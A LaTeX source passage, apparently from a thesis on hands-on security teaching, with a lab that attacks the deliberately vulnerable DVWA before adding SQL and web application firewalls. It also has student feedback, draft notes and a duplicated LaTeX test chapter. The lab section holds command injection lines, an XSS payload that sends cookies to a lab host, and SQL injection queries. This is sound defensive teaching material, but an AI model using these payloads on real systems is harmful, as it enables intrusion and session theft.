\rule[-1ex]{0pt}{2.5ex} Hardware & Server & Client \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} RAM & $>=512MB$ & $>=1GB$\\ 
\hline
\rule[-1ex]{0pt}{2.5ex} HDD & $>=8GB$ (dynamic disk) & $>=16GB$ (dynamic disk)\\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 1 & NAT  & NAT \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 2 & HostOnly & HostOnly \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} OS & Ubuntu Server 12.04 LTS & Ubuntu Desktop 12.04 LTS\\ 
\hline 
\end{tabular}
\label{table:HW for DVWA}
\end{table}

\section{Learning Objectives}

Student is able to install different application firewalls such as \gls{SQL} firewall and web application firewall. Minimal level is reached if the student demonstrates that different types of attacks are possible and successful against the vulnerable web application, installs \gls{SQL} firewall and demonstrates that basic \gls{SQLi} attacks are blocked, demonstrates that several web application attacks are still possible after installing the \gls{SQL} firewall such as reflected \gls{XSS} and stored \gls{XSS}, command injection and \gls{CSRF}, installs application firewall before web application and demonstrates that previously succeeded attacks (at least \gls{XSS}) are stopped.

\section{Setting up the Virtual Environment}

Two virtual machines are needed in this lab: Server and Client.
Download server and client \gls{OVA} files from the following links:

\url{http://elab.itcollege.ee:8000/infra_klient_small.ova}

\url{http://elab.itcollege.ee:8000/infra_server.ova}

Import virtual machines (If your host computer has only 4GB RAM, then reduce client machine memory to 1GB)

Start both machines. 
{\small{If you got an error about host only network then open Main Menu, choose File Preferences and choose Network and add Host Only Network.}}

Username and password for both machines are student.

Student user are in sudo group and can start administrator shell with \emph{sudo} command.

\section{Installation of Damn Vulnerable Web Application}
\subsection{Introduction to DVWA}

Ensure that you have administrator rights
\begin{minted}[frame=lines,framesep=2mm]{bash}
sudo -i
\end{minted}

Update local package cache
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get update
\end{minted}


Ensure that unzip package is installed
\begin{minted}[frame=lines,framesep=2mm]{bash}
type unzip || apt-get install unzip
\end{minted}

Install apapache web server, mysql server and php5
\begin{minted}[frame=lines,framesep=2mm,fontsize=\small]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql libapache2-mod-php5
\end{minted}


Dowload DVWA using web get utility wget
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://dvwa.googlecode.com/files/DVWA-1.0.7.zip
\end{minted}

\begin{minted}[frame=lines,framesep=2mm]{bash}
unzip DVWA-1.0.7.zip
mv dvwa /var/www

nano /var/www/dvwa/config/config.inc.php

$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = 'student';
$_DVWA[ 'db_database' ] = 'dvwa';
\end{minted}
%$
For save use  CTRL + X

Next: the setup of DVWA database

http://$ServerIP$/dvwa/setup.php


Click the \emph{Create/Reset Database}

Log into \gls{DVWA}
http://$ServerIP$/dvwa/
Username : admin
Password : password

The main page of \gls{DVWA} should appear (Figure~\ref{Damn Vulnerable Web Application - default page})

Change \gls{DVWA} Security level to low (Figure~\ref{Setting DVWA Security Level to Low})
\begin{figure}[H] 
 \centering 
 \includegraphics[width=0.8\textwidth]{DVWA_Main_Page.pdf}
 \rule{30em}{0.5pt}  
 \caption{Damn Vulnerable Web Application - default page} 
 \label{Damn Vulnerable Web Application - default page} 
\end{figure}

\begin{figure}[H] 
 \centering 
 \includegraphics[width=0.6\textwidth]{dvwa_security_low.pdf}
 \rule{25em}{0.5pt}  
 \caption{Setting DVWA Security Level to Low} 
 \label{Setting DVWA Security Level to Low} 
\end{figure}




\subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Common vulnerabilities}

Try the following vulnerabilities (find out how)

\begin{minted}[frame=lines,framesep=2mm]{bash}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php
#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{minted}

{\scriptsize
\begin{minted}[frame=lines,framesep=2mm]{html}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{minted}


}
%\begin{minted}[frame=lines,framesep=2mm]{bash}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
%\end{minted}
\begin{minted}[frame=lines,framesep=2mm]{sql}
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --'
\end{minted}



\section{Installation of SQL Application Firewall}
Install the GreenSQL database firewall.
\subsubsection{Installing GreenSQL from pre built package (FOR BEGINNERS)}
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://elab.itcollege.ee:8000/Day3/greensql-fw_1.3.0_amd64.deb
dpkg -i greensql-fw_1.3.0_amd64.deb
apt-get install -f

#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd /var/www/greensql
chmod 0777 templates_c
\end{minted}

\subsubsection{Installing GreenSQL Open Source frou source code (For Advanced Students)}


Download and install the \emph{greensql-fw}
\begin{minted}[frame=lines,framesep=2mm]{bash}

wget -O greensql-fw-1.3.0.tar.gz \
 "http://elab.itcollege.ee:8000/greensql-fw-1.3.0.tar.gz"

#Extract source code
tar zxvf greensql-fw-1.3.0.tar.gz

#Install pre requirements
apt-get install flex
apt-get install bison
apt-get install devscripts
apt-get install debhelper
apt-get install libpcre3-dev
apt-get install libmysqlclient-dev
apt-get install libpq-dev
#Build deb package (In this case it fails. Find out why.)
./build.sh
#Install package with dpkg
dpkg -i greensql-fw_1.3.0.deb
#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql
cd greensql
chmod 0777 templates_c
\end{minted}

\section{Installation of Mod Security Application Firewall}
\begin{minted}[frame=lines,framesep=2mm,fontsize=\scriptsize]{bash}

sudo apt-get update
sudo apt-get install libxml2 libxml2-dev libxml2-utils
sudo apt-get install libapache2-modsecurity
ln -sf /usr/lib/x86_64-linux-gnu/libxml2.so.2 /usr/lib/libxml2.so.2
sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
cd /tmp
 
wget http://downloads.sourceforge.net/project/mod-security/modsecurity-crs/0-CURRENT/modsecurity-crs_2.2.5.tar.gz
 
sudo tar zxf modsecurity-crs_2.2.5.tar.gz
 
sudo cp -R modsecurity-crs_2.2.5/* /etc/modsecurity/
 
sudo rm modsecurity-crs_2.2.5.tar.gz
 
sudo rm modsecurity-crs_2.2.5 -r
 
sudo mv /etc/modsecurity/modsecurity_crs_10_setup.conf.example /etc/modsecurity/modsecurity_crs_10_setup.conf 
\end{minted}


To enable rulesets create /etc/apache2/conf.d/modsecurity.conf file with following content:
\begin{minted}[frame=lines,framesep=2mm]{apache}
<ifmodule mod_security2.c>
SecRuleEngine On
</ifmodule>
\end{minted} 
\begin{minted}[frame=lines,framesep=2mm]{bash}
 
sudo a2enmod mod-security
sudo service apache2 restart

\end{minted}


File /etc/apache2/mods-enabled/mod-security.conf
\begin{minted}[frame=lines,framesep=2mm]{apache}

<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity
 
        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        Include "/etc/modsecurity/*.conf"
        Include "/etc/modsecurity/activated_rules/*.conf"
#       Include "/etc/modsecurity/optional_rules/*.conf"
        Include "/etc/modsecurity/base_rules/*.conf"
</IfModule>
\end{minted} 

%\url{https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project}
%\url{http://blog.spiderlabs.com/2011/07/modsecurity-sql-injection-challenge-lessons-learned.html}

Test the previous vulnerabilities and demonstrate that they failed to pass.


\section{Securing Web Application Configuration}
\begin{itemize}
\item Setting Document Cookies to HTTP Only
\item Fixing Database Privileges
\item Separating Web Applications (for internal use and for external use)
\end{itemize}


Install Nginx as \gls{TLS} termination according to this guide:
\url{https://wiki.itcollege.ee/index.php/TLS_termineerimine_nginx_abil}

Optional task: Find a Varnish firewall project and install the Varnish firewall.

\section{Final System Architecture} 
Keep in mind that final architecture contains several components to provide layered security for insecure web application as seen on Figure ~\ref{Architecture of Secured Web Application}

\begin{figure}[H] 
 \centering 
 \includegraphics[width=0.9\textwidth]{web_security_lab_goal.pdf}
 \rule{35em}{0.5pt} 
 \caption{Architecture of Secured Web Application} 
 \label{Architecture of Secured Web Application} 
\end{figure}




\chapter{Subject Program - Securing IT Infrastructure Services}
\label{appendix:SubjecProgram}

%\includepdf{"./illustrations/IT infrastruktuuri teenuste turvamine - aineprogramm 2013.pdf"}
\includepdf[pages=-,pagecommand=\thispagestyle{plain},noautoscale,scale=0.9]{./illustrations/study_program.pdf}

\chapter{Feedback from students}
\section{Comments from intensive course students}



\subsubsection{Feedback from second group: International students}
Intensive Programme 2013 "Deploying IT Infrastructure Solutions" contains one hands-on course: Protecting web applications. Students were from Estonia, Finland, Greece and from Lithuania. 
Only Estonian students (1/3 from all students) had previous experience with GNU/Linux and this practical class was too hard for most of the students because insufficient previous knowledge:

 Comments from students (unchanged): 
*It was a bit fast, but as I have been dealing with DVWA and this kind of course before, it was okay for me. I was helping other participants. 
*quite hard to follow and was specific for one team. 
*Very important for the Security team, and good new perspectives and experiences for everyone else too. 
*Interesting course. Liked that Estonians helped people who weren’t very familiar with linux. Nothing new to me. 
*This was carried out as a practical class and was quite tough since I had little previous Linux experience. 
*It was a very long, tiring practice lecture. Somehow it would have been better to separate the long lecture into several parts. It would have been more productive. Otherwise tired lecturer and students couldn’t follow.  
*I took my first baby steps towards being professional hacker. In some cases, following teachers teaching was hard because of the fast pace. 
*Not that relevant for all projects, but still important thing to understand as a IT student. 
*Awesome, hacking is interesting. 
*Nice topic and useful to our project. It was like a first bite of our project. And Margus taught things so that everyone can learn.
*That was something different out of software engineering field 
*Very good lecture. Difficult to follow. 
*I really like to search for security holes and vulnerability threats in web pages and this tool is one of the best for testing, but I didn't manage to follow the teacher's step by step tutorial. I have got messed up in virtual machines, because I didn't have the experience for them, however I have managed to learn more about them after this topic, also Margus explained more about DVWA tool for our team, so I got the idea.

\chapter{Lab proposals for the future}
\label{Appendix:Lab proposals for the future}

 
 \begin{enumerate}
   \item E-mail services (4 days)
    \begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
  		\item SPAM control
	  	\item Virus protection
  		\item MTA's 
	  	\item MDA's
    \end{enumerate}
    \item IP firewalls and IDS/IPS (4 days)
        \begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
  		\item IP firewalls netfilter/iptables and packet filter (pf) (2 days)
	  	\item IDS/IPS (2 days)
  		\item NetFlow (together with CERT.EE)
		\end{enumerate}
    \item Autentication and authorization (4 days)
        \begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
  		\item LDAP and Samba4 AD.To pass student needs to configure authentication service using SAMBA4 with Zentyal server and join GNU/Linux workstation into domain using LikeWise Open plugin.
	  	\item Windows and Linux clients with Samba4 AD 
  		\item Web application authentication with Samba4 AD and LDAP
    		\end{enumerate}
    \item GNU/Linux central management with Puppet
        \begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
	  		\item Installation of Puppet using passenger (2 day)
		  	\item Writing puppet recipes (1 day)
    		\end{enumerate}
    	\item Central logging (3 days)
    	    \begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
	  		\item Collecting logs with rsyslog/syslog-ng (1 day)
		  	\item Monitor and analyse log files (1 day)
    		\end{enumerate}
    		\item Cloud and virtualization solutions
    		\begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
	  		\item ProxMox, libvirtd, \gls{KVM}, virtual networks
		  	\item Private cloud for fileserver OwnCloud
		  	\item Open source cloud platform (OpenStack or OpenCloud or Eucalyptus)
    		\end{enumerate}
 \end{enumerate}





\chapter{Toormaterjal}
{\color{red} See ei ole osa tööst vaid asjad, mis jäävad tõenäoliselt välja}


Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}

\url{http://blog.spiderlabs.com/2011/01/detecting-malice-with-modsecurity-csrf-attacks.html}

Lisada upstart ülesanne mysql oom score tuunimiseks.


DHCP laborisse lisada shared-network konfig

Iga peatüki juurde panna kirja, mitu lehekülge on vaja.
E-kiri tsitaatidena - ainult vajalikud osad.
ainekava ei tõlgi - Jääb lisasse eesti keelsena
neljapäeva hommikul 16. saadan töö. - tühja kohta ei ole - todo on tehtud ja jääb keelekorrektuur.
neljapäevaks kaitsmisproov.

 Todays studi in \gls{EITC} include lectures, practical classes and independent work as homework. By and large, one subject is divided as follows: 25\% lectures, 25\% practical classes and 50\% homework which is mostly working with materials (books, web articles). In the worst case, practical work constitutes only 25\% and takes place at \gls{EITC} computer classes.
Moreover, the students are not interested in learning mere theory. The formulas are not seen necessary nor linked to their study area or future job. Theory that is not used will be forgotten quickly. In a few years students won't even remember if a specific topic was covered or not. Applied education should introduce practical approach and learning by doing. In ITC field practical classes and practical homework is the key to achieving acceptable results.
In initial investigation phase the authors role was curricula development, requirements management,  planning hands-on labs and course descriptions.

{\color{red} 
Usable to design a learner centric course instead of teacher centric. 

\url{http://www.youtube.com/watch?v=zB92UMyYzKM}

Course content - get attencion
Ingeraction amoungs students
Jugement 
Student diversity - ebaühtlus
Create a role played scenario
Analyse the material.

\url{http://www.youtube.com/watch?v=oRgLqEF-qAU}

}

Serdi sees url -  Online Certificate Status Protocol (OCSP)
Saab teha ajaaknaga harjutusi. Teenuste uuendamine ja uure vahendite kasutamine ründamiseks...Kõik oleks ajas muutuv.

\url{http://www.createdebate.com/debate/show/How_relevant_is_the_ADDIE_model_in_2009}

ADDIE model \url{http://www.youtube.com/watch?v=fdpHO1xycgo&list=PLEBAA915299F438EB}


Haridustehnoloogia sõnastik - \url{http://wiki.e-uni.ee/htsonastik/index.php?n=Main.Otilde#oppematerjal}

Miks creative common - \url{http://www.copyrightreform.eu/case-for-copyright-reform}

Alternative Training Models
Advances in Developing Human Resources November 2006 8: 460-475,
Today a learning by doing approach is accepted way to gain new skills and knowledge in cyber security field. This thesis focuses to develop of the practical hands-on e-course for system administrators in \gls{EITC}. Moreover the developed laboratories are used in higher education and also in continuous education classes.

%\chapter{LaTeX testing stuff}
\label{LaTeX testing stuff}
{\color{red} 
{\huge Please ignore this chaper ...
This chapter will be excluded from final version.}
}

\begin{tikzpicture}[level distance=2cm,
level 1/.style={sibling distance=5.5cm},
level 2/.style={sibling distance=2.2cm},scale=1.2]
\node {\Large Puu test}
child {node {\large Siga}
child {node {esimene}}
}
child {node {\large Kala}
child {node {teine}}
child {node {kolmas}}
child {node {neljas}}
};
\end{tikzpicture}


{\huge\today}
\fontspec{Ubuntu}
Reason of this chapter is to test \LaTeX  stuff...
\rule{2.6cm}{0.75pt}  \hspace{3cm} üü \rule{3cm}{0.75pt}\\[2cm]
\begin{itemize}
	\item LaTeX testing stuff
	\item LaTeX testing stuff LaTeX testing stuff
\end{itemize}
\begin{Verbatim}[frame=single]
stuff
\end{Verbatim}

\ldots
\marginpar{\tiny This note will appear in the margin.}


\underline{Text you want underlined goes here.}


\begin{Verbatim}[frame=single,
label=Command output,framesep=2mm,rulecolor=\color{red},commandchars=\\\{\}]
margus@marguspc:~$ df -h
Filesystem             Size  Used Avail Use% Mounted on
/dev/sda1              239G  227G  6,0G  98% /
none                   4,0K     0  4,0K   0% /sys/fs/cgroup
udev                   3,9G  4,0K  3,9G   1% /dev
tmpfs                  790M  964K  789M   1% /run
none                   5,0M     0  5,0M   0% /run/lock
none                   3,9G   14M  3,9G   1% /run/shm
none                   100M   88K  100M   1% /run/user
/dev/sda1              239G  227G  6,0G  98% /home
\fbox{\color{red}/home/margus/.Private}  239G  227G  6,0G  98% /home/margus
\end{Verbatim}
%$

\section{Section name}
\begin{enumerate}
	\item Siia midagi nummerdatut
	\item veel midagi
\end{enumerate}
\subsection{subsection name}
Please see Figure ~\ref{Lab Setup} on page ~\pageref{Lab Setup} for bla bla bla.

\begin{minted}{c}
int main() {
printf("hello, world");
return 0;
}
\end{minted}
\begin{minted}{sh}
echo $(pidof mysql)
apt-get install firefox
$333
\end{minted}
\inputminted{sh}{code/simple.sh}

\begin{figure}
    \centering
	\includegraphics[width=\textwidth]{Lab_setup.pdf}
	\caption{Lab Setup}
	\label{Lab Setup}
\end{figure}


dddddd d  e d dwe \

\mint{ruby}|puts "hello world in ruby"|\

\cite{website:ssl} Bla bla
\citep{book:code-complete} d  d
\citep{OppeArenduskeskus2010} de dede
\cite{url:pulse} ewd wed
\citep{SecEngineering} wewde
The \gls{EITC} gives blaa blaa blaa.

Some unicode symbols
道場


\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Computer Science}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {practical}
      [clockwise from=90]
      child { node[concept] {algorithms} }
      child { node[concept] {data structures} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {applied}
      [clockwise from=-30]
      child { node[concept] {databases} }
      child { node[concept] {WWW} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}


\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Course pre requirements skills}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {GNU/Linux}
      [clockwise from=90]
      child { node[concept] {Able to use text editor} }
      child { node[concept] {Understanding of File System Hierarchy} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {Experience with command line}
      [clockwise from=-30]
      child { node[concept] {file manipulation with cp,mv,touch,rm,mkdir etc} }
      child { node[concept] {user management with adduser, passwd, id, getent, usermod, addgroup, useradd, groupadd} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}


%test.tex is for testing latex capabilities
%\chapter{LaTeX testing stuff}
\label{LaTeX testing stuff}
{\color{red} 
{\huge Please ignore this chaper ...
This chapter will be excluded from final version.}
}

\begin{tikzpicture}[level distance=2cm,
level 1/.style={sibling distance=5.5cm},
level 2/.style={sibling distance=2.2cm},scale=1.2]
\node {\Large Puu test}
child {node {\large Siga}
child {node {esimene}}
}
child {node {\large Kala}
child {node {teine}}
child {node {kolmas}}
child {node {neljas}}
};
\end{tikzpicture}


{\huge\today}
\fontspec{Ubuntu}
Reason of this chapter is to test \LaTeX  stuff...
\rule{2.6cm}{0.75pt}  \hspace{3cm} üü \rule{3cm}{0.75pt}\\[2cm]
\begin{itemize}
	\item LaTeX testing stuff
	\item LaTeX testing stuff LaTeX testing stuff
\end{itemize}
\begin{Verbatim}[frame=single]
stuff
\end{Verbatim}

\ldots
\marginpar{\tiny This note will appear in the margin.}


\underline{Text you want underlined goes here.}


\begin{Verbatim}[frame=single,
label=Command output,framesep=2mm,rulecolor=\color{red},commandchars=\\\{\}]
margus@marguspc:~$ df -h
Filesystem             Size  Used Avail Use% Mounted on
/dev/sda1              239G  227G  6,0G  98% /
none                   4,0K     0  4,0K   0% /sys/fs/cgroup
udev                   3,9G  4,0K  3,9G   1% /dev
tmpfs                  790M  964K  789M   1% /run
none                   5,0M     0  5,0M   0% /run/lock
none                   3,9G   14M  3,9G   1% /run/shm
none                   100M   88K  100M   1% /run/user
/dev/sda1              239G  227G  6,0G  98% /home
\fbox{\color{red}/home/margus/.Private}  239G  227G  6,0G  98% /home/margus
\end{Verbatim}
%$

\section{Section name}
\begin{enumerate}
	\item Siia midagi nummerdatut
	\item veel midagi
\end{enumerate}
\subsection{subsection name}
Please see Figure ~\ref{Lab Setup} on page ~\pageref{Lab Setup} for bla bla bla.

\begin{minted}{c}
int main() {
printf("hello, world");
return 0;
}
\end{minted}
\begin{minted}{sh}
echo $(pidof mysql)
apt-get install firefox
$333
\end{minted}
\inputminted{sh}{code/simple.sh}

\begin{figure}
    \centering
	\includegraphics[width=\textwidth]{Lab_setup.pdf}
	\caption{Lab Setup}
	\label{Lab Setup}
\end{figure}


dddddd d  e d dwe \

\mint{ruby}|puts "hello world in ruby"|\

\cite{website:ssl} Bla bla
\citep{book:code-complete} d  d
\citep{OppeArenduskeskus2010} de dede
\cite{url:pulse} ewd wed
\citep{SecEngineering} wewde
The \gls{EITC} gives blaa blaa blaa.

Some unicode symbols
道場

